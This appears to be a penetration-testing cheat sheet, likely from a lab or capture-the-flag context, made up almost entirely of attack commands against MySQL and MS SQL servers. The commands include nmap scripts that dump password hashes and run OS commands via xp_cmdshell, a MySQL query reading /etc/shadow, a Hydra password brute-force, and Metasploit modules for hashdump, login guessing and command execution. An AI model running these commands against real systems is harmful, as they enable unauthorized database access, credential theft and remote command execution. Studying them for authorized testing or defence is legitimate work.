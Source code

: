 ```bash
nmap -p 3306 --script ms-sql-dump-hashes --script-args mssql.username=<USER>,mssql.password=<PW> <TARGET_IP>

nmap -p 3306 --script ms-sql-xp-cmdshell --script-args mssql.username=<USER>,mssql.password=<PW>,ms-sql-xp-cmdshell.cmd="ipconfig" <TARGET_IP>

nmap -p 3306 --script ms-sql-xp-cmdshell --script-args mssql.username=<USER>,mssql.password=<PW>,ms-sql-xp-cmdshell.cmd="type c:\flag.txt" <TARGET_IP>
```

```bash
# MYSQL
mysql -h <TARGET_IP> -u <USER>
mysql -h <TARGET_IP> -u root

# Mysql client
help
show databases;
use <DB_NAME>;
select count(*) from <TABLE_NAME>;
select load_file("/etc/shadow");
```

#### **Hydra**

```bash
hydra -l <USER> -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <TARGET_IP> mysql
```

#### **Metasploit**

```bash
use auxiliary/scanner/mysql/mysql_schemadump
use auxiliary/scanner/mysql/mysql_writable_dirs
use auxiliary/scanner/mysql/mysql_file_enum
use auxiliary/scanner/mysql/mysql_hashdump
use auxiliary/scanner/mysql/mysql_login

## MS Sql
use auxiliary/scanner/mssql/mssql_login
use auxiliary/admin/mssql/mssql_enum
use auxiliary/admin/mssql/mssql_enum_sql_logins
use auxiliary/admin/mssql/mssql_exec
use auxiliary/admin/mssql/mssql_enum_domain_accounts

# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

## set options depends on the selected module
set USERNAME root
set PASSWORD ""

set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE false
set PASSWORD ""

set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
set PASSWORD ""

set USER_FILE /root/Desktop/wordlist/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set STOP_ON_SUCCESS true
```